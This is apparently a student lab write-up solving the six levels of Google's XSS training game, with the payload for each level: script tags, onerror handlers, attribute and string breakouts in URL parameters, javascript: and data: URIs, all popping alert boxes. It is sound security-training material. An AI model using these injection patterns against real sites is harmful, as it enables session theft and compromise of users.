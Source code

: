 # SI-Lab3
**Task:** XSS vulnerability exploiting.

**Example used:** https://xss-game.appspot.com

###Task 1

![ScreenShot](1.png)

```javascript
<script>alert('hello xss')</script>
```

![ScreenShot](2.png)

###Task 2

![ScreenShot](3.png)

```javascript
<img src="something.png" onerror="javascript:alert('hello Xss2')"/>
```

![ScreenShot](4.png)

###Task 3

The vulnerability was at inputting an image which doesn't exist.

![ScreenShot](5.png)

```javascript
function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```

In the Address bar

```
https://xss-game.appspot.com/level3/frame#4'onerror="javascript:alert('hello xss3')"
```

![ScreenShot](6.png)

###Task 4

![ScreenShot](7.png)

Vulnerability found on

```
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

And with the help of https://www.w3schools.com/tags/ref_urlencode.asp HTML URL encoding i was able to inject code in javascript

```
https://xss-game.appspot.com/level4/frame?timer=')%3Balert('hello Xsss4')%3Bvar b=('
```

![ScreenShot](8.png)

###Task 5

![ScreenShot](9.png)

Vulnerability found on 

```javascript
<script>
  setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
```

```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('hello xss4')
```

And by pressing next now it will alert with our notification.

![ScreenShot](10.png)

###Task 6

![ScreenShot](11.png)

I exploited the vulnerability of data uri meaning the way we create http requests for files

```
https://xss-game.appspot.com/level6/frame#data:javascript,alert('hello xss6')
```

![ScreenShot](12.png)

![ScreenShot](13.png)
